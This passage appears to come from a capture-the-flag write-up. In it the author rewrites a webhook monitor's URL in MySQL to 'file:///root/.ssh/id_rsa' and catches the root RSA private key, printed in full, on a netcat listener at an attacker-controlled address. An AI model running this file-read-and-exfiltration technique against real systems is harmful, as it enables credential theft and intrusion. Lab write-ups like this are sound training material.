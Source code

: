 ```
+--------------------------------------+-------------------------+-----------+--------------------+-----------+---------------------+---------------------+
| 92ff83fd-df17-4563-848f-282859d519cf | http://10.10.14.21:1234 |         0 | http://10.10.14.21 | * * * * * | 2023-01-11 13:51:12 | 2023-01-11 13:51:12 |
+--------------------------------------+-------------------------+-----------+--------------------+-----------+---------------------+---------------------+
1 row in set (0.00 sec)
```

In tasks there is new created webhook then i will update the `monitoredUrl` and extract some files by using `update` command. 

```
mysql> update tasks set monitoredUrl = 'file:///root/.ssh/id_rsa';
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from tasks;                                                                                                                                                                    
+--------------------------------------+-------------------------+-----------+--------------------------+-----------+---------------------+---------------------+                              
| id                                   | webhookUrl              | onlyError | monitoredUrl             | frequency | created_at          | updated_at          |                              
+--------------------------------------+-------------------------+-----------+--------------------------+-----------+---------------------+---------------------+                              
| 5b027a6f-8a6c-402b-9a45-96da013488ef | http://10.10.14.21:1234 |         0 | file:///root/.ssh/id_rsa | * * * * * | 2023-01-11 14:01:25 | 2023-01-11 14:01:25 |                              
+--------------------------------------+-------------------------+-----------+--------------------------+-----------+---------------------+---------------------+                              
1 row in set (0.00 sec) 
```

4. In `netcat` listener you have a hit with this file `id_rsa`

```
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.176] 56288
POST / HTTP/1.1
Host: 10.10.14.21:1234
Accept: */*
Content-type: application/json
Content-Length: 1832
Expect: 100-continue

{"webhookUrl":"http:\/\/10.10.14.21:1234","monitoredUrl":"file:\/\/\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}
```
